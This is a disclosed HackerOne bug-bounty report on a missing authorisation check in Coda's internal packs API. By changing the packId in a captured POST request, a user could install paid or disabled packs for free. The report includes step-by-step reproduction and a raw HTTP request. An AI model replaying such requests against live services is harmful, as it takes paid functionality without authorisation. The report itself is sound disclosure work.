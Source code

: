 # Unrestricted access to any "connected pack" on docs

## Report Details
- **Report ID**: 777942
- **URL**: https://hackerone.com/reports/777942
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-01-19T17:44:40.327Z
- **Disclosed**: 2020-04-14T22:42:49.113Z

## Reporter
- **Username**: 0xcrypto
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: coda_bbp

## Vulnerability Information
## Summary:
When adding a pack, a post request is sent to ```https://coda.io/internalAppApi/documents/[doc ID]/packs``` with data ```{"packId":[pack Id]}``` where doc ID is the id of doc user wishes to add pack and pack ID is the pack user wants to install.
But this request is unrestricted and the user can iterate over packId to get any free/pro/disabled pack.

## Steps To Reproduce:
  1. Capture the post request while installing any pack using a proxy like Burp when you are logged in.
  2. Change packId to desired pack's ID. A valid packId gives a 200 status and invalid gives 400.

The below post request contains packId of Google Translate Pack which is a pro pack.

```
POST /internalAppApi/documents/F5Y1qJ3aw-/packs HTTP/1.1
Host: coda.io
Connection: close
Content-Length: 15
Accept: application/json
Origin: https://coda.io
X-Csrf-Token: InEwS0Z2U21xR09JUDI2Qkwi
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Content-Type: application/json
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: https://coda.io/d/Untitled_dF5Y1qJ3aw-/asdf_suTAx
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: /* Your Cookie */

{"packId":1063}
```

Sending the request should return a 200 OK. Check the doc, the pro pack is installed.

[This doc](https://coda.io/d/Untitled_dNvxRin_XtJ) created by 0x00cryptohackeronetester@gmail.com uses Google Translate pro pack without upgrading. Installing the pro pack gives a 14 days warning. I am not sure if it will expire and become read only.

## Impact

Allows anyone to use paid functionality for free causing loss to business.

## Attachments
No attachments
